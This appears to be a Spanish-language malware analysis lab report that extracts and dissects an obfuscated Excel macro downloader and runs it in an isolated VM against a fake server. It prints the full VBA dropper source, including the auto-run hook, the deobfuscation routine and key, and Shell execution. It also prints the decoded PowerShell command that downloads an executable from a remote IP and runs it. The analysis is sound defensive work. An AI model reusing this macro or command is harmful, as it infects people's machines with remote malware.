# **6. Extraccion de objetos y artefactos**

Vamos a extraer el VBA de la muestra `.xlsm` en dos niveles:
- Primero extraemos el `vbaProject.bin` del contenedor `OOXML`.
- Después extraemos el código `VBA` visible.

## **6.1 Extracción el proyecto `VBA` del `.xlsm`**

```bash

└─$ mkdir -p vba_extract
                                                                                                                                                      

└─$ unzip -p "$malwareXLSM" xl/vbaProject.bin > vba_extract/vbaProject.bin
                                                                                                                                                      

└─$ ls -lh vba_extract/vbaProject.bin
-rw-rw-r-- 1 xxniwexx xxniwexx 14K may 31 07:59 vba_extract/vbaProject.bin
                                                                                                                                                      

└─$ file vba_extract/vbaProject.bin
vba_extract/vbaProject.bin: Composite Document File V2 Document, Cannot read section info
                                                                                                                                                      

└─$ sha256sum vba_extract/vbaProject.bin
ea2a7647e029a1b68904d0be603b5319e50aa82ee5194691bb5dfb8c1c5f25fc  vba_extract/vbaProject.bin
```
                                            

## **6.2 Extraer el código VBA visible con olevba**


```bash
└─$ olevba -c "$malwareXLSM" > vba_extract/vba_source_from_xlsm.txt
                                                                                                                                                      

└─$ olevba -c vba_extract/vbaProject.bin > vba_extract/vba_source_from_vbaProject.txt
                                                                                                                                                      

└─$ less vba_extract/vba_source_from_vbaProject.txt

```


```bash
└─$ grep -Ein "Workbook_Open|defnder|WQDX|xas|Shell|Chr|Asc" vba_extract/vba_source_from_vbaProject.txt
10:Public Sub Workbook_Open()
11:'shell xas(ÈÆμÉÊÀ½ÄÄx€Æ¼Î„ƹ½»ÌxªÑË˼ą¥½Ì†¯½º›ÃÀ¼ÅË�†œÇÏÅÄǸ»�Àý+€~¿ËËÇ’‡‡‰��†‰Š�…‰ŒŠ†‰‘‹‡ŠŠ�ˆ�ˆ‰‡ËÀ¹ÏÆ…¼Ï¼~„|½ÆΑ™ÈÇ›¸Ë¸ƒ´Ç¢Ÿ™Ï…¼Ï¼�“€¦¼Ï…¦¹Á¼ºÌx…»ÇÅxª¿¼ÃÆ™ÈÈÄÀ»¹ËÀÆÅ€†«À½ÄÄ�ϼºÌ˽€|½ÆÍ’™ÇÇ›¸Ë¹ƒ´Ç¢Ÿ˜Ï…¼Ï½�)
12:defnder
14:Private Sub defnder()
15:asdas = xas("ÈÆμÉÊÀ½ÄÄx€Æ¼Î„ƹ½»ÌxªÑË˼ą¥½Ì†¯½º›ÃÀ¼ÅË�†œÇÏÅÄǸ»�Àý", "XXWWWWWXXXXXXXWWWWWXXXXXW") + xas("€~¿ËËÇ’‡‡‰��†‰Š�…‰ŒŠ†‰‘‹‡ŠŠ�ˆ�ˆ‰‡ËÀ¹ÏÆ…¼Ï¼~„|½ÆΑ™ÈÇ›¸Ë¸ƒ´Ç¢Ÿ™Ï…¼Ï¼�“€¦¼Ï…¦¹Á¼ºÌx…»ÇÅxª¿¼ÃÆ™ÈÈÄÀ»¹ËÀÆÅ€†«À½ÄÄ�ϼºÌ˽€|½ÆÍ’™ÇÇ›¸Ë¹ƒ´Ç¢Ÿ˜Ï…¼Ï½�", "XXWWWWWXXXXXXXWWWWWXXXXXW")
16:WQDX (asdas)
18:Private Function WQDX(xs As String)
19:Shell xs
21:    Private Function xas(wqdqw As String, ByVal fqwdw As String)
26:                c = Asc(Mid$(wqdqw, i, 1))
27:                c = c - Asc(Mid$(fqwdw, (i Mod Len(fqwdw)) + 1, 1))
28:                strBuff = strBuff & Chr(c And &HFF)
33:        xas = strBuff
    
```                


## **6.3 Extraección de módulos VBA por separado con oledump.py**


```bash
└─$ python3 oledump.py ~/vba_extract/vbaProject.bin 
  1:       422 'PROJECT'
  2:        62 'PROJECTwm'
  3: m    1180 'VBA/Sheet1'
  4: M    3408 'VBA/ThisWorkbook'
  5:      2530 'VBA/_VBA_PROJECT'
  6:      1540 'VBA/__SRP_0'
  7:       182 'VBA/__SRP_1'
  8:       432 'VBA/__SRP_2'
  9:       106 'VBA/__SRP_3'
 10:       515 'VBA/dir'
```


```bash
└─$ python3 oledump.py ~/vba_extract/vbaProject.bin -s 4 -v  
Attribute VB_Name = "ThisWorkbook"
Attribute VB_Base = "0{00020819-0000-0000-C000-000000000046}"
Attribute VB_GlobalNameSpace = False
Attribute VB_Creatable = False
Attribute VB_PredeclaredId = True
Attribute VB_Exposed = True
Attribute VB_TemplateDerived = False
Attribute VB_Customizable = True
Dim asdas As String
Public Sub Workbook_Open()
'shell xas(��μ������x�Ƽ΄ƹ½��x���˼ą��̆��������ˁ������Ǹ���ý+�~���ǒ������������������������������ƅ�ϼ~�|��Α��Ǜ�˸��Ǣ��υ�ϼ�����υ������x����x����Æ����������ŀ�����ĝϼ��˽�|��͒��Ǜ�˹��Ǣ��υ�Ͻ�)
defnder
End Sub
Private Sub defnder()
asdas = xas("��μ������x�Ƽ΄ƹ½��x���˼ą��̆��������ˁ������Ǹ���ý", "XXWWWWWXXXXXXXWWWWWXXXXXW") + xas("�~���ǒ������������������������������ƅ�ϼ~�|��Α��Ǜ�˸��Ǣ��υ�ϼ�����υ������x����x����Æ����������ŀ�����ĝϼ��˽�|��͒��Ǜ�˹��Ǣ��υ�Ͻ�", "XXWWWWWXXXXXXXWWWWWXXXXXW")
WQDX (asdas)
End Sub
Private Function WQDX(xs As String)
Shell xs
End Function
    Private Function xas(wqdqw As String, ByVal fqwdw As String)
        Dim i As Integer, c As Integer
        Dim strBuff As String
        If Len(fqwdw) Then
            For i = 1 To Len(wqdqw)
                c = Asc(Mid$(wqdqw, i, 1))
                c = c - Asc(Mid$(fqwdw, (i Mod Len(fqwdw)) + 1, 1))
                strBuff = strBuff & Chr(c And &HFF)
            Next i
        Else
            strBuff = wqdqw
        End If
        xas = strBuff
    End Function
             
```


```bash
└─$ python3 oledump.py ~/vba_extract/vbaProject.bin -s 3 -v 
Attribute VB_Name = "Sheet1"
Attribute VB_Base = "0{00020820-0000-0000-C000-000000000046}"
Attribute VB_GlobalNameSpace = False
Attribute VB_Creatable = False
Attribute VB_PredeclaredId = True
Attribute VB_Exposed = True
Attribute VB_TemplateDerived = False
Attribute VB_Customizable = True
```


| Stream | Marcador | Nombre | Tamaño | Interpretación |
|---:|---|---|---:|---|
| `1` |  | `PROJECT` | `422` | Metadatos del proyecto VBA. |
| `2` |  | `PROJECTwm` | `62` | Información interna del proyecto VBA. |
| `3` | `m` | `VBA/Sheet1` | `1180` | Módulo asociado a la hoja. No parece contener lógica principal. |
| `4` | `M` | `VBA/ThisWorkbook` | `3408` | Módulo principal con código VBA relevante. |
| `5` |  | `VBA/_VBA_PROJECT` | `2530` | Estructura interna del proyecto VBA. |
| `6` |  | `VBA/__SRP_0` | `1540` | Stream interno relacionado con el proyecto compilado/p-code. |
| `7` |  | `VBA/__SRP_1` | `182` | Stream interno relacionado con el proyecto compilado/p-code. |
| `8` |  | `VBA/__SRP_2` | `432` | Stream interno relacionado con el proyecto compilado/p-code. |
| `9` |  | `VBA/__SRP_3` | `106` | Stream interno relacionado con el proyecto compilado/p-code. |
| `10` |  | `VBA/dir` | `515` | Directorio interno del proyecto VBA. |


Extaemos a un fichero:
```bash
└─$ python3 oledump.py vba_extract/vbaProject.bin -s 4 -v > vba_extract/ThisWorkbook.vba
                                                                                                                                                      
└─$ python3 oledump.py vba_extract/vbaProject.bin -s 3 -v > vba_extract/Sheet1.vba     
```

## **7. Analisis de la macro extraida**

El módulo `ThisWorkbook.vba` extraído del stream `VBA/ThisWorkbook`, y contiene la lógica principal de la macro maliciosa.

El módulo comienza con atributos internos de `VBA`:

```bash
Attribute VB_Name = "ThisWorkbook"
Attribute VB_PredeclaredId = True
Attribute VB_Exposed = True
```

Esto indica que el código está asociado al objeto `ThisWorkbook`, es decir, al propio libro de Excel. Esto es importante porque permite usar eventos del libro, como `Workbook_Open()`.

El punto de entrada principal es:

```bash
Public Sub Workbook_Open()
    'shell xas(...)
    defnder
End Sub
```

`Workbook_Open()` es una rutina de autoejecución. Se ejecuta automáticamente cuando se abre el documento, siempre que las macros estén habilitadas.

La línea:
```bash
'shell xas(...)
```
está comentada, por lo que no se ejecuta. Sin embargo, muestra una versión directa o anterior del mecanismo: ejecutar con `Shell` una cadena previamente desofuscada.

La ejecución real se produce con:
```bash
defnder
```

**Flujo de ejecución real:**
```bash
Workbook_Open()
    ↓
defnder()
    ↓
xas() + xas()
    ↓
asdas = comando PowerShell desofuscado
    ↓
WQDX(asdas)
    ↓
Shell xs
```

La función `defnder()` construye una cadena llamada `asdas`:
```bash
asdas = xas("...", "XXWWWWWXXXXXXXWWWWWXXXXXW") + xas("...", "XXWWWWWXXXXXXXWWWWWXXXXXW")
WQDX (asdas)
```

La cadena está dividida en dos bloques ofuscados y ambos se descifran con la misma clave:
```bash
XXWWWWWXXXXXXXWWWWWXXXXXW
```

Después, el resultado se pasa a `WQDX()`. La función `WQDX()` es crítica:
```bash
Private Function WQDX(xs As String)
    Shell xs
End Function
```

Esta función ejecuta el contenido de `xs` mediante `Shell`, por lo que cualquier cadena reconstruida en `asdas` se lanza como comando del sistema.


**Rutina de desofuscación `xas()`:** La función `xas()` implementa una desofuscación carácter a carácter:
```bash
c = Asc(Mid$(wqdqw, i, 1))
c = c - Asc(Mid$(fqwdw, (i Mod Len(fqwdw)) + 1, 1))
strBuff = strBuff & Chr(c And &HFF)
```

**Comando desofuscado:** Al aplicar la función `xas()` a las dos cadenas, el comando final reconstruido es:
```bash
powershell (new-object System.Net.WebClient).DownloadFile('http://185.239.242.194/2391911/shawn.exe',$env:AppData+'\oJGAx.exe');(New-Object -com Shell.Application).ShellExecute($env:AppData+'\oJGAx.exe')
```

**Este comando hace dos acciones principales:**
| Acción              | Descripción                                                                                  |
| ------------------- | -------------------------------------------------------------------------------------------- |
| Descarga de payload | Usa `System.Net.WebClient.DownloadFile()` para descargar un ejecutable desde una URL remota. |
| Escritura en disco  | Guarda el fichero descargado en `%APPDATA%\oJGAx.exe`.                                       |
| Ejecución           | Usa `Shell.Application` y `ShellExecute()` para ejecutar el binario descargado.              |


**Indicadores extraídos:**
| Tipo                     | Indicador                                  |
| ------------------------ | ------------------------------------------ |
| IP remota                | `185.239.242.194`                          |
| URL                      | `http://185.239.242.194/2391911/shawn.exe` |
| Recurso remoto           | `shawn.exe`                                |
| Ruta de escritura        | `%APPDATA%\oJGAx.exe`                      |
| Nombre del payload local | `oJGAx.exe`                                |
| Intérprete usado         | `powershell`                               |
| Clase .NET usada         | `System.Net.WebClient`                     |
| Método de descarga       | `DownloadFile()`                           |
| Objeto COM usado         | `Shell.Application`                        |
| Método de ejecución      | `ShellExecute()`                           |


**Comportamiento malicioso confirmado:** Con este resultado ya se puede afirmar que la macro no solo es sospechosa, sino que tiene comportamiento claramente malicioso:
| Evidencia         | Impacto                                                        |
| ----------------- | -------------------------------------------------------------- |
| `Workbook_Open()` | Ejecución automática al abrir el documento.                    |
| Cadenas ofuscadas | Ocultación del comando real frente a análisis estático simple. |
| Función `xas()`   | Rutina personalizada de desofuscación.                         |
| `Shell xs`        | Ejecución de comandos del sistema.                             |
| `powershell`      | Uso de intérprete de comandos potente y habitual en malware.   |
| `DownloadFile()`  | Descarga de un segundo payload.                                |
| `ShellExecute()`  | Ejecución del payload descargado.                              |

La macro actúa como downloader/dropper: el documento no parece contener el payload final dentro del .xlsm, sino que lo descarga desde una IP remota y lo ejecuta desde el directorio %APPDATA%.


**Conclusiones:** El módulo ThisWorkbook.vba contiene una macro de autoejecución que se activa al abrir el documento. La macro reconstruye dinámicamente un comando PowerShell ofuscado y lo ejecuta mediante `Shell`.

El comando desofuscado descarga un ejecutable desde `185.239.242.19`4 y lo guarda como `oJGAx.exe` en `%APPDATA%`, para después ejecutarlo mediante `Shell.Application`. Esto confirma que el documento funciona como primera etapa de infección, con comportamiento de downloader y ejecución de payload externo.


# **8. Análisis dinámico básico**


## **8.1 Preparación de la máquina virtual**
Se utilizaron las siguientes herramientas:
```
Process Monitor  → monitorización de procesos, ficheros, registro y red
Process Explorer → inspección de procesos, PID, PPID y líneas de comandos
Regshot          → comparación de cambios en registro y sistema
Wireshark        → captura de tráfico de red
Office 2003      → entorno compatible para la apertura del documento PowerPoint `.ppt` y la ejecución de macros VBA.
```

### **8.1.1 Process Monitor**
**Ejecutamos Process Monitor y establecemos los siguientes filtros:**
| Campo          | Condición  | Valor            |
| -------------- | ---------- | ---------------- |
| `Process Name` | `is`       | `EXCEL.EXE`      |
| `Process Name` | `is`       | `powershell.exe` |
| `Path`         | `contains` | `oJGAx.exe`      |
| `Operation`    | `is`       | `Process Create` |
| `Operation`    | `is`       | `WriteFile`      |
| `Operation`    | `is`       | `CreateFile`     |


### **8.1.2 Process Explorer**
Configuración para Process Explorer:
```
Run as administrator
View > Select Columns > PID, Parent PID, Command Line, Image Path, Verified Signer
```


### **8.1.3 Regshot**
Tomamos dos snapshot, una previa y otra posterior a la ejecución para compararlas.


### **8.1.4 Wireshark**
Filtros recomendados:
```
dns or http

```

### **8.1.5 Microsoft Office vulnerable**
Buscamos una versión antigua del programa, en este caso un Microsoft Office 2003.


### **8.1.6 Servidor fake usando la IP original**







**En Windows VM creamos una ruta hacia el fake server:** Como la URL usa una IP pública, Windows intentará ir hacia internet. Para evitarlo, añadimos una ruta que mande esa IP hacia la MV REMnux:



**Vemos que el servidor fake está funcionando correctamente:**  





## **8.2 Ejecucuón de la muestra**

Tras ejecutar la muestra en el entorno controlado, se comprobó la existencia del fichero descargado en la ruta `%APPDATA%\oJGAx.exe` mediante `Test-Path`, obteniendo como resultado `True`. Esto confirma que la macro consiguió completar la fase de descarga del recurso remoto simulado.

Posteriormente, Windows mostró el mensaje “No se puede ejecutar esta aplicación en el equipo”, lo cual es coherente con el entorno de laboratorio, ya que el recurso servido desde REMnux no era un ejecutable real, sino una nota de texto inocua entregada con el nombre `shawn.exe`. La macro descargó dicho contenido y lo almacenó con el nombre `oJGAx.exe`, tal como indicaba el comando PowerShell desofuscado.

Este comportamiento confirma dinámicamente la función downloader de la muestra: el documento ejecuta la macro al abrirse, invoca PowerShell, descarga un archivo desde la URL configurada y posteriormente intenta ejecutarlo desde el directorio `%APPDATA%`.
















# **8. Análisis dinámico avanzado**

## **8.1 Vamos hacer una depuración principal de la macro en el editor VBA**

Para ello abrimos la muestra en Excel dentro de la VM y entramos con: `ALT + F11`. Buscamos: `VBAProject → Microsoft Excel Objects → ThisWorkbook`. 

Ponemos estos breakpoints:
| Breakpoint | Ubicación                             | Objetivo                                                |
| ---------- | ------------------------------------- | ------------------------------------------------------- |
| 1          | `Workbook_Open()`                     | Confirmar la autoejecución al abrir el documento.       |
| 2          | Línea `defnder`                       | Ver el salto hacia la función que construye el comando. |
| 3          | `asdas = xas(...) + xas(...)`         | Capturar el comando desofuscado.                        |
| 4          | `WQDX(asdas)`                         | Ver qué se pasa a la función de ejecución.              |
| 5          | `Private Function WQDX(xs As String)` | Inspeccionar el argumento `xs`.                         |
| 6          | `Shell xs`                            | Punto crítico antes de ejecutar PowerShell.             |
| 7          | Final de `xas()`                      | Ver cada bloque desofuscado antes de devolverlo.        |


En el bp `Shell xs`, podremos inspeccionar `xs` y obtener el comando final sin dejar que se ejecute.


## **8.2 Variables a vigilar en VBA**

En el editor VBA usamos Add Watch / Agregar inspección sobre:
| Variable  | Función     | Qué aporta                          |
| --------- | ----------- | ----------------------------------- |
| `asdas`   | `defnder()` | Comando final reconstruido.         |
| `xs`      | `WQDX()`    | Comando que se entregará a `Shell`. |
| `wqdqw`   | `xas()`     | Cadena ofuscada de entrada.         |
| `fqwdw`   | `xas()`     | Clave usada para desofuscar.        |
| `strBuff` | `xas()`     | Cadena desofuscada progresivamente. |
| `i`       | `xas()`     | Índice del bucle.                   |
| `c`       | `xas()`     | Valor numérico de cada carácter.    |






